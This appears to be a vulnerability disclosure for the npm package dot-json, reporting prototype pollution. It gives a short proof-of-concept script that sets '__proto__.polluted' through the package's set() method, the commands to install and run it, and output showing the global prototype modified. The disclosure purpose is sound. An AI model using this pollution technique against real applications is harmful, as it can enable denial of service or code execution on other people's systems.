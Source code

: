 # Description

`dot-json` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var dotJson = require("dot-json")
var myfile = new dotJson('myfile.json');
console.log("Before : " + {}.polluted);
myfile.set("__proto__.polluted", "Yes! Its Polluted").save();
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i dot-json # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
